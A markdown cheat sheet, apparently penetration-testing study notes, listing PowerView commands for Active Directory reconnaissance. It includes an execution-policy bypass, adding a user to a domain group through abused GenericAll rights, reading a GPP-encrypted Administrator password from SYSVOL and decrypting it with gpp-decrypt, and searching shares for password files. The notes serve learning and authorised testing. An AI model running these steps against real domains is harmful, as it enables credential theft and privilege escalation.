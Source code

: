 # Using PowerView
`PowerView.ps1` is a powerful PowerShell script included in the PowerSploit framework, designed for Active Directory enumeration and exploitation. Below is an overview of commonly used commands and examples for `PowerView.ps1`.

This [table](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/Manual%20Enumeration/PowerView_Table.md) below describes some of the most useful functions PowerView offers

**Importing PowerView**
```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
```
## Enumerating Domain Information
**Get-NetDomain**
```powershell
Get-NetDomain
```
**Get-NetForest**
```powershell
Get-NetForest
```
**Get-NetDomainController**
```powershell
Get-NetDomainController
```
**Get-NetUser**
List **all users** in the domain:
```powershell
Get-NetUser
```
- **To filter by a specific user:**
```powershell
Get-NetUser | Where-Object { $_.SamAccountName -eq "gamal" }
```
- **Querying users using select statement**
``` powershell
Get-NetUser | select cn
```
- **Querying users displaying pwdlastset and lastlogon**
``` powershell
Get-NetUser | select cn,pwdlastset,lastlogon
```
- Example 
``` powershell
Get-DomainUser -Identity gamal -Domain domain.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
```
**Get-NetGroup**
**Retrieve all groups in the domain**
```powershell
Get-NetGroup
```
- **Find users in a specific group**
```powershell
Get-NetGroup | Where-Object { $_.Name -eq "Development Department" }
```
- **Enumerate a specific group member**
``` powershell
Get-NetGroup "Management Department" | select member
```
- **Recursive Group Membership**
``` powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```
- **enumerate domain trust mappings**
``` powershell
Get-DomainTrustMapping
```
- We can use the [Test-AdminAccess](https://powersploit.readthedocs.io/en/latest/Recon/Test-AdminAccess/) function to test for local admin access on either the current machine or a remote one.
- test if a user has administrative access to a local or remote host
``` powershell
Test-AdminAccess -ComputerName Comp-EA-MS01
```
## Enumerating Computers
**List all computers in the domain:**
```powershell
Get-NetComputer
```
**Displaying OS and hostname**
``` powershell
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
**Filter by operating system:**
```powershell
Get-NetComputer -OperatingSystem "Windows Server*"
```
**Find-LocalAdminAccess**
- Scans the network in an attempt to determine if our current user has **administrative permissions** on any computers in the domain.:
```powershell
Find-LocalAdminAccess
```
## Enumeration Through Service Principal Names
- **Listing the SPN accounts in the domain**
``` powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
- To enumerate SPNs in the domain, we have multiple options. In this case, we'll use setspn.exe, which is installed on Windows by default. We'll use -L to run against both servers and clients in the domain. 
- **Finding Users With SPN Set**
``` powershell
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
```

**Listing SPN linked to a certain user account** 
``` powershell
setspn -L iis_service
```
![image](https://github.com/user-attachments/assets/368e7933-3e93-441f-83aa-7d03c8b7dba0)
## Enumerating **Object Permissions**
Here's a list of the most interesting
**GenericAll**: Full permissions on object
**GenericWrite**: Edit certain attributes on the object
**WriteOwner**: Change ownership of the object
**WriteDACL**: Edit ACE's applied to object
**AllExtendedRights**: Change password, reset password, etc.
**ForceChangePassword**: Password change for object
**Self (Self-Membership)**: Add ourselves to for example a group
The [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-and-access-masks) lists other permissions and describes each in more detail.
#### Enumerate ACEs with PowerView
``` powershell
Get-ObjectAcl -Identity stephanie
```
we are primarily interested in those **highlighted**
![Pasted image 20241224120822](https://github.com/user-attachments/assets/6560a072-a667-4657-ba20-fd4545f3eba2)

``` powershell
Get-ObjectAcl -Identity UserName | select ObjectSID,ActiveDirectoryRights,SecurityIdentifier
```
The output lists two [_Security Identifiers_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers) (SID), unique values that represent an object in AD.
#### Converting the ObjectISD into name
``` powershell
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
```
#### Enumerate all objects the domain
generate clean and manageable output
``` powershell
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```
Converting all SIDs that have GenericAll permission on the Management Group
``` powershell
"SID01","SID02","SID03","SID04" | Convert-SidToName
```
Using "net.exe" to add ourselves to domain group if you got ACL permisson
``` powershell
net group "Management Department" stephanie /add /domain
```
## Domain Share Query List shared folders across the network:
``` powershell
Find-DomainShare
```
Or we can use
```powershell
Invoke-ShareFinder
```

![Pasted image 20241224143305](https://github.com/user-attachments/assets/ed627a2b-3b84-4077-b473-e9b5a3b0d783)

 [**SYSVOL**](https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx), as it may include files and folders that reside on the domain controller itself.
 ``` powershell
 ls \\dc1.corp.com\sysvol\corp.com\
```
- Investigate every folder
``` powershell
ls \\dc1.corp.com\sysvol\corp.com\Policies\
```
![Pasted image 20241224143757](https://github.com/user-attachments/assets/54a58560-494d-46c8-9ad3-843e0ae00bd4)

Checking contents of old-policy-backup.xml file
``` powershell
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```
![Pasted image 20241224144802](https://github.com/user-attachments/assets/24c1ee97-4bbc-4ad6-98b9-9490a1bf1b68)

XML file describes an old policy (helpful for learning more about the current policies) and an encrypted password for the local built-in Administrator account. The encrypted password could be extremely valuable for us.
system administrators often changed local workstation passwords through [_Group Policy Preferences_](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn581922(v=ws.11)) (GPP).
However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on [_MSDN_](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2). We can use this key to decrypt these encrypted passwords. In this case, we'll use the [**gpp-decrypt**](https://www.kali.org/tools/gpp-decrypt/) ruby script in Kali Linux that decrypts a given GPP encrypted string:
``` bash
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```
## **Invoke-FileFinder**

Search for specific files across shared folders:

```powershell
Invoke-FileFinder -Include "passwords*.txt"
```
## **Get-NetGPO**

Retrieve all GPOs in the domain:

```powershell
Get-NetGPO
```

## **Get-NetGPOGroup**

Find GPOs linked to specific groups:

```powershell
Get-NetGPOGroup
```
## **Get-NetSession**

List active sessions on domain computers:

```powershell
Get-NetSession
```

## **Get-NetLoggedon**

Find users currently logged on to domain computers:

```powershell
Get-NetLoggedon
```


